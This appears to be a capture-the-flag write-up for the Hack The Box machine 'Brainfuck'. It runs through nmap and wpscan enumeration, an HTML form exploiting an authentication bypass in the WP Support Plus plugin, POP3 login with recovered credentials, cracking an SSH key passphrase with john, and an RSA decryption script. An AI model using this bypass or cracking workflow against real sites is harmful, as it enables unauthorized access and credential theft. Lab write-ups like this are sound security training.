# brainfuck

# Scanning

furious 10.10.10.17
nmap -sC -sV -p 25,22,110,143,443 -n -Pn 10.10.10.17 -oN targeted



Subject Alternative Name: DNS:www.brainfuck.htb, DNS:sup3rs3cr3t.brainfuck.htb}

we add in /etc/hosts the line:
```hosts
10.10.10.17		brainfuck.htb	sup3rs3cr3t.brainfuck.htb
```



posible user orestis

## wpscan
wpscan --url https://brainfuck.htb/ -e vp, u --disable-tls-checks -o wpscan.txt



users identified

admin
administrator



wp-support vulnerable plugin
```bash
searchsploit wp support plus
searchsploit -x php/webapps/41006.txt 
```

```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```



```txt
orestis
kHGuERB29DNiNE
```

## telnet 110

```bash
telnet 10.10.10.17 110

rying 10.10.10.17...
Connected to 10.10.10.17.
Escape character is '^]'.
+OK Dovecot ready.
user orestis
+OK
pass kHGuERB29DNiNE
+OK Logged in.
list
+OK 2 messages:
1 977
2 514

retr 1
+OK 977 octets
Return-Path: <www-data@brainfuck.htb>
X-Original-To: orestis@brainfuck.htb
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 33)
	id 7150023B32; Mon, 17 Apr 2017 20:15:40 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: New WordPress Site
X-PHP-Originating-Script: 33:class-phpmailer.php
Date: Mon, 17 Apr 2017 17:15:40 +0000
From: WordPress <wordpress@brainfuck.htb>
Message-ID: <00edcd034a67f3b0b6b43bab82b0f872@brainfuck.htb>
X-Mailer: PHPMailer 5.2.22 (https://github.com/PHPMailer/PHPMailer)
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8

Your new WordPress site has been successfully set up at:

https://brainfuck.htb

You can log in to the administrator account with the following information:

Username: admin
Password: The password you chose during the install.
Log in here: https://brainfuck.htb/wp-login.php

We hope you enjoy your new site. Thanks!

--The WordPress Team
https://wordpress.org/
.
retr 2
+OK 514 octets
Return-Path: <root@brainfuck.htb>
X-Original-To: orestis
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 0)
	id 4227420AEB; Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: Forum Access Details
Message-Id: <20170429101206.4227420AEB@brainfuck>
Date: Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
From: root@brainfuck.htb (root)

Hi there, your credentials for our "secret" forum are below :)

username: orestis
password: kIEnnfEKJ#9UmdO

Regards
.
```

credential for the secret forum are:
username: orestis
password: kIEnnfEKJ#9UmdO


we log as orestis









https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa
```bash
/usr/share/john/ssh2john.py id_rsa > rsa.john
john --wordlist=/usr/share/wordlists/rockyou.txt rsa.john
```
3poulakia!


# ssh connection
cat /home/oretis/user.txt

```bash
def egcd(a, b):
    x,y, u,v = 0,1, 1,0
    while a != 0:
        q, r = b//a, b%a
        m, n = x-u*q, y-v*q
        b,a, x,y, u,v = a,r, u,v, m,n
        gcd = b
    return gcd, x, y

def main():

	p = 7493025776465062819629921475535241674460826792785520881387158343265274170009282504884941039852933109163193651830303308312565580445669284847225535166520307
	q = 7020854527787566735458858381555452648322845008266612906844847937070333480373963284146649074252278753696897245898433245929775591091774274652021374143174079
	e = 30802007917952508422792869021689193927485016332713622527025219105154254472344627284947779726280995431947454292782426313255523137610532323813714483639434257536830062768286377920010841850346837238015571464755074669373110411870331706974573498912126641409821855678581804467608824177508976254759319210955977053997
	
    ct = 299604539773691895576847697095098784338054746292313044353582078965

    # compute n
    n = p * q

    # Compute phi(n)
    phi = (p - 1) * (q - 1)

    # Compute modular inverse of e
    gcd, a, b = egcd(e, phi)
    d = a

    print( "n:  " + str(d) );

    # Decrypt ciphertext
    pt = pow(ct, d, n)
    print( "pt: " + str(pt) )

if __name__ == "__main__":
    main()
```

pt: 24604052029401386049980296953784287079059245867880966944246662849341507003750

decimal to hex and hex to ascii
